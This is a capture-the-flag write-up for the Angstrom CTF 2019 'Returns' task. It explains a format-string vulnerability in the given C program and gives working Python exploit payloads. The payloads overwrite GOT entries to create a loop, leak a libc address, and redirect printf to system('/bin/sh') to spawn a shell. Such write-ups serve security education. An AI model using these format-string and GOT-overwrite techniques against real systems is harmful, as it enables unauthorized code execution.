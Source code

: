 # Angstrom CTF 2019
## Returns

> Need to make a return? This program might be able to help you out (source, libc).
> /problems/2019/returns/<br/>
> nc shell.actf.co 19307<br/>
> Author: kmh11

---

### Checksec output
> Arch:     amd64-64-little<br/>
> RELRO:    Partial RELRO<br/>
> Stack:    Canary found<br/>
> NX:       NX enabled<br/>
> PIE:      No PIE (0x400000)

### Given source code
```C
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int main() {
	gid_t gid = getegid();
	setresgid(gid, gid, gid);
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);

	char item[50];
	printf("What item would you like to return? ");
	fgets(item, 50, stdin);
	item[strlen(item)-1] = 0;

	if (strcmp(item, "nothing") == 0) {
		printf("Then why did you even come here? ");
	} else {
		printf("We didn't sell you a ");
		printf(item);
		printf(". You're trying to scam us! We don't even sell ");
		printf(item);
		printf("s. Leave this place and take your ");
		printf(item);
		printf(" with you. ");
	}
	printf("Get out!\n");
	return 0;
}
```

We are given the task's binary, the libc (which happens to be the libc from 
Ubuntu 16.04 Xenial) and... the source code!

This task is almost identical to angstrom's purchases task except it doesn't have
the `flag` function which gave us the flag. Knowing that, we already know the 
vulnerability - format-string vulnerability.

The plan is to call `system("/bin/sh")`, so we need the libc base address. 
Then, knowing `system` address we want to redirect execution to it and pass
`"/bin/sh"` as an argument.

How do we do it only with one possiblility to write to the buffer `item`? 
We could make ourselves a loop.
Luckily the binary has PIE disabled and last `printf` got translated into `puts`.
If we overwrite GOT entry of puts with address right before fgets call we
obtain a loop! Now we can use the format-string vulnerability multiple times.

### Custom loop
From `0x401303` jumping to `0x40122e`.
```
0x40122e <main+136>    mov    rdx, qword ptr [rip + 0x2e4b] <0x404080>
0x401235 <main+143>    lea    rax, [rbp - 0x40]
0x401239 <main+147>    mov    esi, 0x32
0x40123e <main+152>    mov    rdi, rax
0x401241 <main+155>    call   fgets@plt <0x401080>  # fgets(item, 50, stdin);
(...)
0x4012fc <main+342>    lea    rdi, [rip + 0xdcc]
0x401303 <main+349>    call   puts@plt <0x401030>
```

We need only to overwrite last 2 Bytes of the address, because `puts` got entry
already contains similar address.

#### GOT when calling first vulnerable printf for the first time
```
   0x401296 <main+240>    lea    rax, [rbp - 0x40]
   0x40129a <main+244>    mov    rdi, rax
   0x40129d <main+247>    mov    eax, 0
 ► 0x4012a2 <main+252>    call   printf@plt <0x401070>
```
```
pwndbg> got
GOT protection: Partial RELRO | GOT functions: 9
[0x404018] puts@GLIBC_2.2.5 -> 0x401036 (puts@plt+6) ◂— push   0 /* 'h' */
(...)
```

The binary also overwrites byte before first nullbyte with a nullbyte.
Thus we insert dummy `a` right before padding of nullbytes.

#### Payload creating a loop:
```Python
got_puts = 0x404018
before_fgets = 0x40122e

payload = "%018u%12$hhn%028u%13$hhn" # set 40122e
payload += 'a'
payload += '\x00' * (32-len(payload))
payload += p64(got_puts+1)
payload += p64(got_puts)
payload += '\n'
```

#### How to get a libc leak then?
Luckilly there is `__libc_start_main+240` address on the stack when calling vulerable
`printf`.

```
   0x401296 <main+240>    lea    rax, [rbp - 0x40]
   0x40129a <main+244>    mov    rdi, rax
   0x40129d <main+247>    mov    eax, 0
 ► 0x4012a2 <main+252>    call   printf@plt <0x401070>
        format: 0x7fffffffe5f0 ◂— 0x3200007024383125 /* '%18$p' */
        vararg: 0x7fffffffbf48 ◂— "We didn't sell you a 507360000000000000000004158470016 "

pwndbg> stack 20
00:0000│ rsp  0x7fffffffe5d8 —▸ 0x401308 (main+354) ◂— mov    eax, 0
01:0008│      0x7fffffffe5e0 —▸ 0x7ffff7ffe168 ◂— 0x0
02:0010│      0x7fffffffe5e8 ◂— 0xf0b5ff
03:0018│ rdi  0x7fffffffe5f0 ◂— 0x3200007024383125 /* '%18$p' */
04:0020│      0x7fffffffe5f8 ◂— '$hhn%028u%13$hhn'
05:0028│      0x7fffffffe600 ◂— 'u%13$hhn'
06:0030│      0x7fffffffe608 ◂— 0x0
07:0038│      0x7fffffffe610 —▸ 0x404019 (_GLOBAL_OFFSET_TABLE_+25) ◂— 0x2000000000004012
08:0040│      0x7fffffffe618 —▸ 0x404018 (_GLOBAL_OFFSET_TABLE_+24) —▸ 0x40122e (main+136) ◂— mov    rdx, qword ptr [rip + 0x2e4b]
09:0048│      0x7fffffffe620 —▸ 0x7fffffff000a ◂— 0x0
0a:0050│      0x7fffffffe628 ◂— 0xb264bae28067b100
0b:0058│ rbp  0x7fffffffe630 —▸ 0x401330 (__libc_csu_init) ◂— endbr64 
0c:0060│      0x7fffffffe638 —▸ 0x7ffff7a2d830 (__libc_start_main+240) ◂— mov    edi, eax
```

#### Payload leaking libc address:
```Python
payload2 = "%18$p"
payload2 += '\n'

io.send(payload2)
io.recvuntil('sell you a ')
libc_leak_hex_str = io.recvuntil('.') # (__libc_start_main+240) 
print(libc_leak_hex_str[:-1])
libc_start_main_addr_240 = int(libc_leak_hex_str[2:-1], 16)

libc_start_main_addr = libc_start_main_addr_240 - 240
libc_start_main_offset = 0x20740
libc_base_addr = libc_start_main_addr - libc_start_main_offset
libc_system_offset = 0x45390
libc_system_addr = libc_base_addr + libc_system_offset
```

With the libc leak, we calculate libc base address and then the address of a `system`
function. Now, how do we call it with `"/bin/sh"`?
We'll abuse another vulnerable printf call.

With one of the `printf`s we overwrite got entry of `printf` with `system`,
and using another one we call `system("/bin/sh")`.
We need to pass `"/bin/sh"` and rest of the payload at the same time. 
Luckily one can safely spawn shell with `system("/bin/sh;[rest of payload]")`.

Most of the times we'll need to overwrite only last 3 bytes of the address:

```
[0x404038] printf@GLIBC_2.2.5 -> 0x7ffff7a62800 (printf) ◂— sub    rsp, 0xd8
{<text variable, no debug info>} 0x7ffff7a52390 <__libc_system>
```

I couldn't fit the payload overwriting 2 bytes and then 1 byte, so I overwrote
last 4 bytes.

I've also stumbled upon a limit with format-string padding:
```C
unsigned int d = 13378;
printf("aha%02147483614u!", d);    // prints "aha[zeroes]!"
printf("aha%02147483615u!", d);    // prints "aha"
```

Luckily we can execute exploit couple of times until it works.

#### Payload spawning shell:
```Python
got_printf = 0x404038

payload = "/bin/sh;"

# lowest 4B
to_write = libc_system_addr & 0xffffffff
to_write -= len("/bin/sh;")

payload += "%0{}u%14$n".format(to_write)
payload += 'a' # overwritten with NULLBYTE by binary itself
payload += '\x00' * ((8 - len(payload)) % 8)
# aligned to 8B
assert(payload[-1] == '\x00') # at least one NULLBYTE required

payload += p64(got_printf)
payload += '\n'

assert(len(payload) <= 50)
io.send(payload)
```

When we overwrite 4 bytes at the same time, the binary prints massive amount of 
zeroes. Printing them to the console takes ages... but finaly spawns our beloved 
shell.

@mzr - justCatTheFish

